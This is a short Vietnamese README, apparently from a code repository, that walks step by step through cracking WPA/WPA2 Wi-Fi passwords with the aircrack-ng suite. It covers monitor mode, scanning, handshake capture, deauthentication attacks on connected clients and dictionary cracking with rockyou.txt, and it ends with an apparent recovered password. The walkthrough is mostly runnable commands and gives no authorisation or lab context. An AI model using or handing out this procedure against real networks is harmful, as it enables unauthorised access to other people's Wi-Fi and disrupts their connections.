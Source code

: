 ## 🛠️ Các bước thực hiện hack Wi-Fi (WPA/WPA2)

```bash
1. iwconfig
```

→ Kiểm tra các thiết bị kết nối mạng không dây.

```bash
2. sudo airmon-ng start wlan0
```
→ airmon-ng : bật tắt chế độ monitor và dừng tiến trình gây xung đột.

→ Bật chế độ monitor cho card mạng.

```bash
3. sudo airmon-ng check kill
```
→ Dừng các dịch vụ gây xung đột.

```bash
4. sudo airodump-ng wlan0mon
```
*công dụng airodump-ng*
  - quét và giám sát các mạng wifi xung quanh
  - thu thập được : SSID ( tên mạng ), BSSID ( địa chỉ MAC ), kênh ( channel ), mã hóa (WEP/WPA/WPA2), số lượng client kết nối.
  - Bắt handshake (quá trình xác thực giữa thiết bị và router) dùng để dò mật khẩu.
→ Quét và thu thập thông tin mạng Wi-Fi.
    **Ctrl + C** để thoát.

```bash
5. sudo airodump-ng --bssid <bssid> --channel <ch> --write wpa2hack wlan0mon
```

→ Bắt handshake WPA/WPA2 từ một Wi-Fi và lưu vào file `wpa2hack.cap`.

```bash
6. sudo aireplay-ng --deauth 4 -a <bssid> -c <station> wlan0mon
```

→ Gửi gói `deauth` để ngắt kết nối thiết bị khỏi Wi-Fi.
Mục đích: ép thiết bị kết nối lại để bết handshake.

```bash
7. sudo aircrack-ng <file.cap> -w /usr/share/wordlists/rockyou.txt
```

→ Dò mật khẩu Wi-Fi bằng file từ điển `rockyou.txt`.

---

### ✅ Kết quả:

```
Sanh Dieu [ 00001111 ]
```
